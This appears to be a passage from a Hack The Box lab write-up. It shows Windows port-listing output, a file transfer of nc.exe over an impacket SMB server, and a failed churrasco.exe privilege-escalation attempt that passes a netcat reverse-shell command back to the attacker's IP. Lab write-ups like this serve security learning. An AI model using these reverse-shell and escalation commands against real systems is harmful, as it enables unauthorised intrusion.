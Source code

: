 ```
  TCP    [::]:445               [::]:0                 LISTENING       InHost      
  TCP    [::]:47001             [::]:0                 LISTENING       InHost      
  TCP    [::]:49152             [::]:0                 LISTENING       InHost      
  TCP    [::]:49153             [::]:0                 LISTENING       InHost      
  TCP    [::]:49154             [::]:0                 LISTENING       InHost      
  TCP    [::]:49155             [::]:0                 LISTENING       InHost      
  TCP    [::]:49156             [::]:0                 LISTENING       InHost      
  UDP    0.0.0.0:123            *:*                                                
  UDP    0.0.0.0:5355           *:*                                                
  UDP    10.129.90.62:137       *:*                                                
  UDP    10.129.90.62:138       *:*                                                
  UDP    [::]:123               *:*                                                
  UDP    [::]:5355              *:*                                                
#
```

Port 445 is open. I’m thinking of just using that to upload nc.exe and churrasco.exe.

I set up a smb server on my machine with `sudo impacket-smbserver smb .`

And attempt to download with:

```
# copy \\10.10.14.69\smb\nc.exe nc.exe
# dir


    Directory: C:\Windows\temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         1/31/2021  10:55 PM            test                              
d----         6/10/2018   3:44 PM            vmware-SYSTEM                     
-a---         5/30/2018   3:19 AM          0 DMI5FAC.tmp                       
-a---         1/31/2021  10:56 PM      59392 nc.exe                            
-a---         6/10/2018   3:44 PM     203777 vminst.log                        
-a---         1/31/2021   6:16 PM      59269 vmware-vmsvc.log                  
-a---         6/11/2018  12:47 AM      22447 vmware-vmusr.log                  
-a---         1/31/2021   6:16 PM       1001 vmware-vmvss.log                  


#
```

I try running `churrasco.exe -d "nc.exe 10.10.14.69 1338 -e cmd.exe"`

With a netcat listener open, but it does not work. Seems like I do not have access to running binaries.

I do have powershell possibilites though.

If you want to read more about token impersonation, read my writeup on Granny [here](https://github.com/matale14/Writeups/blob/main/HTB/Granny/Granny.MD)

